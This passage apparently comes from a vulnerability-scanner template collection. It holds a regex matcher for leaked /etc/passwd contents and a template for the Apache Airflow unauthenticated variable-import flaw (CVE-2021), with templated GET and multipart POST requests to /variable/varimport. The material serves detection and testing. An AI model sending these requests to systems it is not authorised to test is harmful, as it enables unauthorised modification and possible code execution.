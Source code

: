 ### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

---

# Apache Airflow - Unauthenticated Variable Import

## Description

- Apache Airflow Airflow >=2.0.0 and \<2.1.3 does not protect the variable import endpoint which allows unauthenticated users to hit that endpoint to add/modify Airflow variables used in DAGs, potentially resulting in a denial of service, information disclosure or remote code execution.
- severity - critical
- tags - cve,cve2021,apache,airflow,rce

## Requests

### Step - 1

```
GET /login/ HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}

```

### Step - 2

```
POST /variable/varimport HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB874qcjbpxTP1Hj7
Referer: {{RootURL}}/admin/variable/

------WebKitFormBoundaryB874qcjbpxTP1Hj7
Content-Disposition: form-data; name="csrf_token"

{{csrf}}
------WebKitFormBoundaryB874qcjbpxTP1Hj7
Content-Disposition: form-data; name="file"; filename="{{randstr}}.json"
Content-Type: application/json

{
    "type": "{{randstr}}"
}

------WebKitFormBoundaryB874qcjbpxTP1Hj7--

```
